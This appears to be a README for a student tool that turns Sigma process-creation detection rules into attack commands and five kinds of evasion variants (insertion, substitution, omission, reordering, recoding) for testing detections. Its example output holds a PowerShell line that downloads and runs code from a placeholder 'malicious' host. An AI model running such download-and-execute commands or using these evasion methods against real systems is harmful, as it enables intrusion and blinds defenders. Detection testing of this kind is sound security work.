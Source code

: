 # 🛠️ Evasion Command Generator – `attack_convert/`

This tool is designed to **generate original and evasion attack commands** based on Sigma rules from the `process_creation` category. It supports five evasion techniques and exports the result in JSON format for further analysis or simulation.

---

## 📁 Folder Structure

```json
Sigma-automation/
├── attack_convert/
│   ├── main.py                    # Entry point to generate evasion commands
│   ├── utils/
│   │   ├── parser.py              # Extracts command line from Sigma rule
│   │   ├── evasions_core.py       # Main controller for all evasion techniques
│   │   └── evasions/
│   │       ├── insertion.py       # Evasion technique: Insertion
│   │       ├── substitution.py    # Evasion technique: Substitution
│   │       ├── omission.py        # Evasion technique: Omission
│   │       ├── reordering.py      # Evasion technique: Reordering
│   │       └── recoding.py        # Evasion technique: Recoding
```

---

## 🚀 How to Run

### 1. Prepare Input

- Place all Sigma rule files (`.yml`) in:

  ```plaintext
  data/rules/windows/process_creation/
  ```

- Create a file `evasion_possible_rules.txt` listing rules (by filename without `.yml`) that should be processed for evasion.

---

### 2. Run the Tool

> From the **project root** (`Sigma-automation/`):

#### Windows Command Prompt (CMD)

```cmd
set PYTHONPATH=D:\UIT\Nam_3\DACN\Sigma-automation
python -m attack_convert.main
```

#### PowerShell

```powershell
$env:PYTHONPATH="D:\UIT\Nam_3\DACN\Sigma-automation"
python -m attack_convert.main
```

---

## 📤 Output

- Generated files will be saved to:

  ```plaintext
  attack_convert/Evasion-Results/
  ```

- Each `.json` result includes:
  - The original attack command
  - Five evasion variations:
    - `insertion`
    - `substitution`
    - `omission`
    - `reordering`
    - `recoding`

---

### 📄 Example Output

```json
{
  "rule_name": "suspicious_powershell_0",
  "original_command": "powershell.exe -Command \"IEX(New-Object Net.WebClient).DownloadString('http://malicious')\"",
  "evasions": {
    "insertion": "powershell.exe -Command \"<obfuscated-inserted-command>\"",
    "substitution": "powershell.exe -c \"<alias-used-command>\"",
    "omission": "powershell.exe \"<command with removed parameters>\"",
    "reordering": "powershell.exe \"<reordered arguments>\" -Command",
    "recoding": "powershell.exe -EncodedCommand <base64-encoded-command>"
  }
}
```

---

## 📦 Requirements

- Python 3.10+
- Install dependencies:

```bash
pip install pyyaml
```

---

## ✅ Notes

- Make sure your working directory is the **project root**, not inside `attack_convert/`.
- `PYTHONPATH` must point to the root folder to allow relative imports.
